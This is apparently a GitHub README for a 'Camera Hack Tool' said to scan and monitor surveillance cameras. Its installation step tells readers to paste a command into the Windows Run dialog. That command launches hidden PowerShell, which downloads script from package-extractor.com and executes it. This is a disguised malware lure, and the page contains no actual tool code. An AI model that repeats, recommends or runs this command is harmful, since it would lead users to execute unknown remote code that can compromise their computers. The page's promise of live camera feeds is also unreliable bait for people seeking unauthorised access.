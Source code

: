 # Cam Hacker Tool 📷

## Description
**Camera Hack Tool** is an advanced desktop application designed for security professionals and ethical hackers to assess the vulnerability of camera systems. This tool allows users to identify weaknesses in surveillance setups and ensure the integrity of camera networks.

## Key Features
- **Vulnerability Scanning**: Scan for known vulnerabilities in camera firmware and configurations.
- **Network Analysis**: Analyze the security of the network to which the cameras are connected.
- **Access Control Testing**: Test the strength of access controls and authentication mechanisms.
- **Live Feed Monitoring**: Monitor live feeds from connected cameras to assess security in real-time.
- **Reporting Tools**: Generate detailed reports on vulnerabilities and suggested remediation steps.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

### Installation
- Follow the on-screen instructions to install the program on your device from command.

### Launching
- Launch Camera Hack Tool from your desktop or application menu.
- Register or log into your account if necessary.

## Usage
1. Select the camera system or network you want to assess.
2. Run vulnerability scans and analyze the results.
3. Review live feeds and generate reports on security findings.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Camera Hack Tool, you can enhance your security assessments and ensure that camera systems are protected from potential threats! 😊

## SEO Keywords
- Camera Hack Tool
- Surveillance system security
- Vulnerability scanning
- Network analysis
- Cam Hacker
- Live feed monitoring
- Ethical hacking tools
- Security assessments
- Camera network integrity
